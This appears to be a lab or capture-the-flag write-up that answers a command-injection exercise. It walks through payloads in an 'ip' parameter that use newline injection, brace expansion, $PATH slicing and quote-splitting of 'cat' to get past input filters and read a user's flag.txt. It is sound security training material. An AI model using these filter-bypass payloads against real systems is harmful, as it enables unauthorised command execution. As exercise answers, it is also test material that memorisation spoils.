




## Exercises

### Question 1 — Use what you learned in this section find the content of flag.txt in the home folder of the user you previously found.

I started by re-confirming the `/home` listing with the same combination used before, brace expansion carrying the command and its arguments, with the path built from slicing `$PATH`:

```
ip=127.0.0.1%0A{ls,-la,${PATH:0:1}home}
```

**Breakdown:**

- `{ls,-la,${PATH:0:1}home}` is a three-element brace expansion: `ls`, `-la`, and `${PATH:0:1}home`
- `${PATH:0:1}` slices the first character out of `$PATH`, giving `/`, with `home` concatenated directly after it to produce `/home`
- Expanded together, this runs `ls -la /home`

That confirmed the same thing as before: a single directory under `/home` owned by `—REDACTED—`. 



I drilled into that directory next, building the path the same way but with an extra slice-and-concatenate step for the subdirectory:

```
ip=127.0.0.1%0A{ls,-la,${PATH:0:1}home${PATH:0:1}—REDACTED—}
```

**Breakdown:**

- `{ls,-la,${PATH:0:1}home${PATH:0:1}—REDACTED—}` expands to `ls`, `-la`, and the third element
- `${PATH:0:1}home` produces `/home`, and `${PATH:0:1}—REDACTED—` produces `/—REDACTED—`, concatenated straight onto the end of it, giving `/home/—REDACTED—`
- Expanded together, this runs `ls -la /home/—REDACTED—`

That listed the contents of `—REDACTED—`'s home directory, which held a 32-byte file called `flag.txt`. 



I tried reading it directly:

```
ip=127.0.0.1%0A{cat,${PATH:0:1}home${PATH:0:1}—REDACTED—${PATH:0:1}flag.txt}
```

**Breakdown:**

- `{cat,${PATH:0:1}home${PATH:0:1}—REDACTED—${PATH:0:1}flag.txt}` expands to `cat` and the full path `/home/—REDACTED—/flag.txt`, built the same way as the previous payload
- Expanded together, this runs `cat /home/—REDACTED—/flag.txt`

This didn't work. Instead of the file's contents, the response came back with "Invalid input". 



I tried the same payload again, but with the word `cat` split up by inserting a single quote between its letters:

```
ip=127.0.0.1%0A{c'a't,${PATH:0:1}home${PATH:0:1}—REDACTED—${PATH:0:1}flag.txt}
```

**Breakdown:**

- `c'a't` is the word `cat` with a single quote inserted between each letter; the quotes are ignored by the shell while parsing, so the fragments are reassembled into `cat` before anything runs
- the rest of the brace expansion is unchanged from the previous attempt, still producing `/home/—REDACTED—/flag.txt` as the argument

That one worked, and the response came back with `flag.txt`'s contents.



**Answer:** `—REDACTED—`